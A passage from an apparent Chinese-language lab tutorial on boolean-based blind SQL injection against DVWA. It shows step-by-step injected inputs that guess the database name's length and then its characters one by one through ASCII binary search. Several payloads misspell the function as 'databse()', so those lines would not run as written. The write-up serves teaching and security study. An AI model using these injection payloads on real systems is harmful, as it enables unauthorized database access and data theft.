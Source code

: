 

说明存在字符型的SQL盲注。



### **2.猜解当前数据库名**



想要猜解数据库名，首先要猜解数据库名的长度，然后挨个猜解字符。



> 输入1’ and length(database())=1 #，显示不存在；

> 

> 输入1’ and length(database())=2 #，显示不存在；

> 

> 输入1’ and length(database())=3 #，显示不存在；

> 

> 输入1’ and length(database())=4 #，显示存在：



说明数据库名长度为4。



下面采用二分法猜解数据库名。



> 输入1’ and ascii(substr(databse(),1,1))>97 #，显示存在，说明数据库名的第一个字符的ascii值大于97（小写字母a的ascii值）；

> 

> 输入1’ and ascii(substr(databse(),1,1))<122 #，显示存在，说明数据库名的第一个字符的ascii值小于122（小写字母z的ascii值）；

> 

> 输入1’ and ascii(substr(databse(),1,1))<109 #，显示存在，说明数据库名的第一个字符的ascii值小于109（小写字母m的ascii值）；

> 

> 输入1’ and ascii(substr(databse(),1,1))<103 #，显示存在，说明数据库名的第一个字符的ascii值小于103（小写字母g的ascii值）；

> 

> 输入1’ and ascii(substr(databse(),1,1))<100 #，显示不存在，说明数据库名的第一个字符的ascii值不小于100（小写字母d的ascii值）；

> 

> 输入1’ and ascii(substr(databse(),1,1))>100 #，显示不存在，说明数据库名的第一个字符的ascii值不大于100（小写字母d的ascii值），所以数据库名的第一个字符的ascii值为100，即小写字母d。

> 

> …



重复上述步骤，就可以猜解出完整的数据库名（dvwa）了。
